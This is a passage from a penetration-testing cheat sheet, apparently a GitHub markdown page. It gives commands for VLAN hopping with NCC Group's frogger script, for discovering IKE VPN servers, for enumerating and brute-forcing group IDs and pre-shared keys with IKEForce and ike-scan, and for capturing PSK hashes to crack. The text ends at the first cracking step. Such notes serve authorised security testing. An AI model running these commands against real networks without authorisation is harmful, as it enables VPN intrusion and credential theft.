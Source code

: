 Using NCCGroups VLAN wrapper script for Yersina simplifies the process. 

```
git clone https://github.com/nccgroup/vlan-hopping.git
chmod 700 frogger.sh
./frogger.sh 
```

### VPN Pentesting Tools 

Identify VPN servers: 

```
./udp-protocol-scanner.pl -p ike TARGET(s)

```

Scan a range for VPN servers: 

```
./udp-protocol-scanner.pl -p ike -f ip.txt
```

#### IKEForce 

Use IKEForce to enumerate or dictionary attack VPN servers.

Install:
```
pip install pyip
git clone https://github.com/SpiderLabs/ikeforce.git
```
Perform IKE VPN enumeration with IKEForce: 
```
./ikeforce.py TARGET-IP –e –w wordlists/groupnames.dic
```
Bruteforce IKE VPN using IKEForce: 

```
./ikeforce.py TARGET-IP -b -i groupid -u dan -k psk123 -w passwords.txt -s 1
```


```
ike-scan
ike-scan TARGET-IP
ike-scan -A TARGET-IP
ike-scan -A TARGET-IP --id=myid -P TARGET-IP-key
```

#### IKE Aggressive Mode PSK Cracking

1. Identify VPN Servers 
2. Enumerate with IKEForce to obtain the group ID
3. Use ike-scan to capture the PSK hash from the IKE endpoint 
4. Use psk-crack to crack the hash 

##### Step 1: Idenitfy IKE Servers
